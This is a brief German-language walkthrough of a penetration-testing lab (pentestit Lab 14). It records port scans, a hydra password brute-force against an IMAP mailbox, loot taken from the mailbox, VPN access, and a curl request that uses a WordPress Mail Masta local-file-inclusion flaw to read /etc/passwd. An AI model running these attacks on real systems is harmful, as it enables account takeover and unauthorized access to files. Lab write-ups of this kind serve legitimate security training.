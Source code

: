 # Lab 14

https://lab.pentestit.ru/pentestlabs/14
Tools: Debian 10, nmap,wpscan,dirb,Metasploit,hydra, rockyou.txt

Gateways: 
  * 192.168.101.14
  * 192.168.101.15
  
## Mail - Token 

Host: 192.168.101.14

- in /etc/hosts eintragen: "192.168.101.14 site.test.lab"
- Mailadressen auf http://site.test.lab:
  * sidorov@test.lab
  * ivanov@test.lab
  * petrov@test.lab (IT)
  * support@test.lab
- Portscan mit nmap: 
  * 80/tcp   open  http    nginx 1.18.0
  * 143/tcp  open  imap    Dovecot imapd
  * 8080/tcp open  http    nginx (Roundcube!)
- hydra site.test.lab imap -l support@test.lab -P rockyou.txt
  * pwd="PASSWORD"
  * Login in Roundcube (http://site.test.lab:8080)
  * Mailbox: Mail-Token, SSH-Key (ivanov), client.jar (dev), vpn.zip (gagarin)
   
## VPN-2 - Token

- openvpn mit vpn.zip (gagarin - Mail-Token)
- 172.16.0.11 online - nmap: Port 80 offen
- Token auf http://172.16.0.11/token
  
## Site - Token

- wpscan site.test.lab
- MailMasta 1.0 LFI (https://www.exploit-db.com/exploits/40290)
- curl http://site.test.lab/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=//etc//passwd


